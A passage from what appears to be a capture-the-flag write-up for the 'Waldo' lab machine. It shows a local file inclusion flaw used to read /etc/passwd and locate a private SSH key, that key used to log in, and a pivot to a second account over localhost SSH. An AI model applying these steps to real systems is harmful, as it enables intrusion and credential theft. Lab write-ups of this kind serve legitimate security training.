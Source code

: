 ```
halt:x:7:0:halt:\/sbin:\/sbin\/halt\n
mail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\n
news:x:9:13:news:\/usr\/lib\/news:\/sbin\/nologin\n
...
```

Using `fileRead.php`, `dirRead.php` and our new LFI vulnerability we can find out that there is a user, `nobody`, 
with a home directory at `/home/monitor`. Inspecting that directory we find a `.ssh` folder and an SSH key named `.monitor`.
We grab the contents of that ssh key and attempt to ssh in:

```
root@kali:~/Documents/htb/waldo# ssh -i ssh.pem nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$
```

And we're in!

After some recon we notice that our ssh connection to the machine is running on port `8888`. This raises suspicion since ssh typically runs on port 22:

```
waldo:~$ netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN
tcp        0      0 localhost:9000          0.0.0.0:*               LISTEN
tcp        0      0 10.10.10.87:8888        10.10.14.10:55112       ESTABLISHED
tcp        0      0 :::http                 :::*                    LISTEN
tcp        0      0 :::ssh                  :::*                    LISTEN
tcp        0      0 :::8888                 :::*                    LISTEN
udp        0      0 10.10.10.87:37432       10.10.10.2:domain       ESTABLISHED
```

While the ssh we are connected to appears to be on port `8888`, there is another ssh running on port `22`. 
My first inclination was to `ssh -i .ssh/.monitor waldo@localhost`, which didn't work. However, using the `monitor` user did work:

```
waldo:~$ ssh -i .ssh/.monitor monitor@localhost
Linux waldo 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1 (2018-04-29) x86_64
           &.
          @@@,@@/ %
       #*/%@@@@/.&@@,
   @@@#@@#&@#&#&@@@,*%/
   /@@@&###########@@&*(*
 (@################%@@@@@.     /**
 @@@@&#############%@@@@@@@@@@@@@@@@@@@@@@@@%((/
 %@@@@%##########&@@@....                 .#%#@@@@@@@#
 @@&%#########@@@@/                        */@@@%(((@@@%
    @@@#%@@%@@@,                       *&@@@&%(((#((((@@(
     /(@@@@@@@                     *&@@@@%((((((((((((#@@(
       %/#@@@/@ @#/@          ..@@@@%(((((((((((#((#@@@@@@@@@@@@&#,
          %@*(@#%@.,       /@@@@&(((((((((((((((&@@@@@@&#######%%@@@@#    &
        *@@@@@#        .&@@@#(((#(#((((((((#%@@@@@%###&@@@@@@@@@&%##&@@@@@@/
       /@@          #@@@&#(((((((((((#((@@@@@%%%%@@@@%#########%&@@@@@@@@&
      *@@      *%@@@@#((((((((((((((#@@@@@@@@@@%####%@@@@@@@@@@@@###&@@@@@@@&
      %@/ .&%@@%#(((((((((((((((#@@@@@@@&#####%@@@%#############%@@@&%##&@@/
```